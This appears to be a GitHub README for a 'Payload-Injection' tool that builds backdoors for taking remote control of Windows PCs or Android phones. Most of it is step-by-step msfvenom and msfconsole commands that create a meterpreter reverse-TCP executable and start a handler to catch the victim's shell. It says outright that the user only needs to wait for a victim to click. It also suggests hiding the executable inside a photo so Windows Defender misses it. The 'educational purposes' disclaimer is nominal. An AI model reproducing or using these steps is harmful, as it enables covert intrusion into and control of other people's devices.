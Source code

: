 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of danger we are not responsible for any damages due to improper use


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To macke something like back door and so one to completely remote a PC or android phone Just one click on the file and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …


 # [+]How to Download
open you terminal
git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

sodu su  
**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**


Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE
 
 Tip 
 you can merge yout exe file in a photo to prevent windows defenter detect the virus , or merge it by the way you like it

Happy hacking , Good luck friend

